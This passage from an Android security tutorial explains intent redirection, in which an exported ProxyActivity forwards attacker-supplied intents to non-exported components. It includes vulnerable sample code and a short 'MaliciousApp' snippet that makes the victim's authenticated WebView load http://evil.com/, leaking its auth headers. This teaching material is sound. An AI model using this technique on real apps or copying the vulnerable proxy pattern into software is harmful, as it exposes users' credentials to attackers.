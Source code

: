## 19. Insecure Intents

##### 19.1 Intent Redirection
In Android, **Intents** are used to launch components (Activities, Services, Broadcast Receivers). Some apps use a **ProxyActivity** (or similar components) as a shortcut: it takes another Intent as input and forwards it internally. For example:

```java
// ProxyActivity.java
startActivity((Intent) getIntent().getParcelableExtra("extra_intent"));
```

At first glance, this seems harmless. But if the ProxyActivity is **exported (public)** in the `AndroidManifest.xml`, any other app can call it. This opens a vulnerability: an attacker can trick the Proxy into launching **non-exported components** that normally cannot be accessed by outsiders.
##### Example Vulnerability
Suppose the target app defines:

```xml
<activity android:name=".ProxyActivity" android:exported="true" />
<activity android:name=".AuthWebViewActivity" android:exported="false" />
```

`AuthWebViewActivity` loads a URL passed via Intent:

```java
// AuthWebViewActivity.java
webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());
```

Normally, the attacker cannot start `AuthWebViewActivity` directly:

```java
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://evil.com/");
startActivity(intent); 
// ❌ SecurityException: not exported
```

But because ProxyActivity is exported, the attacker can **wrap** the malicious intent and send it through ProxyActivity:

```java
// MaliciousApp.java
Intent hidden = new Intent();
hidden.setClassName("com.victim", "com.victim.AuthWebViewActivity");
hidden.putExtra("url", "http://evil.com/");

Intent attack = new Intent();
attack.setClassName("com.victim", "com.victim.ProxyActivity");
attack.putExtra("extra_intent", hidden);

startActivity(attack); // ✅ Works! Proxy forwards it
```
